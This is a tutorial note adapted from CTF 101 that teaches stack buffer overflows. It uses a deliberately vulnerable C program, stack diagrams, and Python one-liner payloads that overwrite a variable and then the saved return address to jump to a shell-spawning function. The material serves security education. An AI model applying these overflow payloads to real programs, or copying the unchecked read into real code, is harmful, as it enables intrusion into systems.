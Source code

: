 From [CTF 101](https://ctf101.org/binary-exploitation/buffer-overflow/)
A buffer overflow is a vulnerability where data can be written that exceeds the allocated space, allowing an attacker to overwrite other data.
## Stack Buffer Overflow
The simplest and most common buffer overflow is one where the buffer is on the stack.
	[[The Stack]] writeup.
###### Example:
```c
#include <stdio.h>

int main() {
    int secret = 0xdeadbeef;
    char name[100] = {0};
    read(0, name, 0x100);
    if (secret == 0x1337) {
        puts("Wow! Here's a secret.");
    } else {
        puts("I guess you're not cool enough to see my secret");
    }
}
```
There's a mistake in the above program that will allow us to see the secret.
```c
char name[100] = {0};
read(0, name, 0x100);
```
The variable `name` is initialized with a size of 100 **decimal** bytes, but `read` takes in up to 100 **hexadecimal** bytes. 
	`100 hex bytes = 256 decimal bytes`
How do we use this to our advantage?
###### If the compiler chose to layout the stack like this:
```
        0xffff006c: 0xf7f7f7f7  // Saved EIP
        0xffff0068: 0xffff0100  // Saved EBP
        0xffff0064: 0xdeadbeef  // secret
...
        0xffff0004: 0x0
ESP ->  0xffff0000: 0x0         // name
```
###### What happens when we read in 0x100 bytes of `'A'`s
The first 100 decimal bytes of data are saved properly:
```
        0xffff006c: 0xf7f7f7f7  // Saved EIP
        0xffff0068: 0xffff0100  // Saved EBP
        0xffff0064: 0xdeadbeef  // secret
...
        0xffff0004: 0x41414141
ESP ->  0xffff0000: 0x41414141  // name
```
But when we read in the 101st byte, we start to see an issue:
	The secret, `0xdeadbeef` is starting to be overwritten
```
        0xffff006c: 0xf7f7f7f7  // Saved EIP
        0xffff0068: 0xffff0100  // Saved EBP
        0xffff0064: 0xdeadbe41  // secret
...
        0xffff0004: 0x41414141
ESP ->  0xffff0000: 0x41414141  // name
```
Once we add the next three bytes to be read in, the entirety of `secret` is overwritten with `'A'`s
```
        0xffff006c: 0xf7f7f7f7  // Saved EIP
        0xffff0068: 0xffff0100  // Saved EBP
        0xffff0064: 0x41414141  // secret
...
        0xffff0004: 0x41414141
ESP ->  0xffff0000: 0x41414141  // name
```
The remaining `152` bytes of data would continue to overwrite values up the stack!
### Passing an impossible check
How do we use this to pass the seemingly impossible check in the original program, `if (secret == 0x1337)`? If we carefully line up our input so that the bytes that overwrite `secret` are the butes that represent `0x1337` in little-endian, we'll see the secret message.
###### Python One-Liner
```python
python -c "print 'A'*100 + '\x31\x13\x00\x00'"
```
This will fill the `name` buffer with 100 `'A'`s, then overwrite `secret` with the 32-bit little endian encoding of `0x1337`
### Taking it One Step Further
As discussed on [[The Stack]] page, the instruction that the current function should jump to when it is done is saved on the stack. (Denoted as `EIP` in the above stack diagrams) If we can overwrite this, we can control where the program jumps after `main` finishes running, giving us the ability to control what the program does entirely.

Usually, the end objective in binary exploitation is to get a shell on the remote computer., which will allow us to run whatever we want on the target machine.

On the off chance there's a nice `give_shell` function somewhere in the program that we can't get to like:
```c
void give_shell() {
	system("/bin/sh");
}
```
The buffer overflow will let us use it. All we need to do is overwrite the saved `EIP` on the stack with the address of `give_shell`. Then, when `main` returns, it will pop that address of the stack and jump to it, running `give_shell` and (surprise, surprise) giving us our shell!
	Assuming `give_shell` is at `0x08048fd0`, something like the following would work:
	`python -c "print 'A'*108 + '\xd0\x8f\x04\x08'"`

We send 108 `A`s to overwrite the 100 bytes allocated for `name`, the 4 bytes for `secret`, and the 4 bytes for the saved `EBP`. Then we send the little-endian form of `give_shell`'s address and we get a shell.

Learn more in [[Return Oriented Programming]]